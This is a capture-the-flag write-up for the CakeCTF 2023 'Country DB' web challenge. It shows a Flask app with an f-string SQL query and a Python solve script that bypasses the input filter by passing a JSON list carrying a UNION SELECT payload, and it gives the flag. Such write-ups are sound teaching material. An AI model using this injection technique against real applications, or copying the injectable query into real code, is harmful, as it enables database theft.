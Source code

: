 ```yaml
---
title: 2023 CakeCTF - Country DB
author: thanguyen165
date: 2023-11-11 00:00:00 +0700
categories: [Write-ups, 2023_CakeCTF]
tags: [Web Exploitation, write-ups]
---
```


* 68 points / 246 solves
* author: ptr-yudai
* tag: warm-up

## Description

> Do you know which country code 'CA' and 'KE' are for?
> Search country codes [here](http://countrydb.2023.cakectf.com:8020/)!

### Attached

```py
#!/usr/bin/env python3
import flask
import sqlite3

app = flask.Flask(__name__)

def db_search(code):
    with sqlite3.connect('database.db') as conn:
        cur = conn.cursor()
        cur.execute(f"SELECT name FROM country WHERE code=UPPER('{code}')")
        found = cur.fetchone()
    return None if found is None else found[0]

@app.route('/')
def index():
    return flask.render_template("index.html")

@app.route('/api/search', methods=['POST'])
def api_search():
    req = flask.request.get_json()
    if 'code' not in req:
        flask.abort(400, "Empty country code")

    code = req['code']
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")

    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")

    return {'name': name}

if __name__ == '__main__':
    app.run(debug=True)

```
{: file="app.py" }

## Analyzation

Check ```init_db.py``` file, it is not hard to find out this is sqli.

The query is so simple

```sql
SELECT name FROM country WHERE code=UPPER('AF') UNION SELECT FLAG FROM FLAG -- trash
```

The main problem of this challenge is to bypass the filters
```py
req = flask.request.get_json()
if 'code' not in req:
    flask.abort(400, "Empty country code")

code = req['code']
if len(code) != 2 or "'" in code:
    flask.abort(400, "Invalid country code")
```

So the string's length must be 2.

Hmmm, does it have to be string??

## Vulnerability

It does not check type of ```code```, so it does not need to be a string. Another data type can be used instead.

After looking around, I find out ```list``` work!

## Solution

```py
import requests

URL = "http://localhost:8020/api/search"
URL = "http://countrydb.2023.cakectf.com:8020/api/search"

data = {"code": ["') UNION SELECT FLAG FROM FLAG --", "# "]}

response = requests.post(URL, json=data)

print(response.text)
```
{: file="solve.py" }

*I use empty string for the first query to prevent the result of that query stay up before flag*

The flag is
```
CakeCTF{b3_c4refUl_wh3n_y0U_u5e_JS0N_1nPut}
```

* Similar challenge: "upside-down cake" of TSG CTF (2023)*